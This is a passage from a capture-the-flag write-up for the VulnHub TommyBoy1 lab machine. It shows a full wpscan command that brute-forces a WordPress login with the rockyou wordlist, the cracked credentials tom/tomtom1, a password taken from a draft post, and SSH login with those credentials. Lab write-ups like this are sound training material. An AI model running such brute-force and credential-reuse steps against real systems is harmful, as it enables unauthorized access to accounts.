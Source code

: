 1. Bruteforce against tom's account (tommy, tom) w/ rockyou.txt
	```
	wpscan --no-update --disable-tls-checks --wp-content-dir wp-admin --url http://tommyboy/prehistoricforest/ --usernames usernames.txt --passwords /usr/share/wordlists/rockyou.txt -f cli-no-color 2>&1 | tee "/root/vulnHub/TommyBoy1/192.168.56.129/scans/tcp80/tcp_80_http_wpscan_bruteforce.txt"
	```
	```
	[+] Performing password attack on Wp Login against 2 user/s
	Progress: |== 			|
	[SUCCESS] - tom / tomtom1
	```
2. Login w/ tom:tomtom1 & find draft
	![](images/Pasted%20image%2020220118184353.png)
	- fatguyinalittlecoat1938!!

## TCP/22 (SSH) 
1. SSH w/ found creds 
	![](images/Pasted%20image%2020220118212103.png)